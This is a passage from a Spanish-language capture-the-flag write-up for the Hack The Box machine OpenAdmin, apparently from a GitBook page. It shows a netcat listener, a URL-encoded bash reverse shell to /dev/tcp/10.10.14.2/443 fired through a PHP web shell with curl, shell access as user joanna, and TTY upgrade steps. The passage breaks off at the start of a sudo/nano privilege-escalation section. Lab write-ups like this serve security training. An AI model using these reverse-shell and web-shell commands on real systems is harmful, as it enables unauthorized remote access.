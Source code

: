 Nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Codificaremos en `URL Encode` la sintaxis de la Reverse Shell y utilizaremos la herramienta de `cURL`para que realice la petición hacia nuestra `web shell`y logre ejecutar la Reverse Shell.

```bash
❯ echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"' | jq -sRr @uri
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.2%2F443%200%3E%261%22
❯ curl -s 'http://127.0.0.1:52846/gzzcoo.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.2%2F443%200%3E%261%22'
```

Comprobamos que disponemos de acceso al sistema con el usuario `joanna` y logramos visualizar finalmente la flag **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.171] 47666
bash: cannot set terminal process group (1300): Inappropriate ioctl for device
bash: no job control in this shell
joanna@openadmin:/var/www/internal$ whoami
joanna
joanna@openadmin:/var/www/internal$ cat /home/joanna/user.txt 
7bd9************************
```

Realizaremos un tratamiento de la terminal para poder obtener una TTY totalmente interactiva.

```bash
oanna@openadmin:/var/www/internal$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
joanna@openadmin:/var/www/internal$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
joanna@openadmin:/var/www/internal$ export TERM=xterm
joanna@openadmin:/var/www/internal$ export SHELL=bash
joanna@openadmin:/var/www/internal$ stty rows 46 columns 230
```

## Privilege Escalation

### Abusing Sudoers Privilege (nano)

Al revisar si el usuario `joanna` dispone de algún permiso de `sudoers`, nos mostraba el siguiente mensaje de error.&#x20;

{% hint style="info" %}
Según [`ChatGPT`](https://chatgpt.com), este mensaje se puede deber a estos motivos.
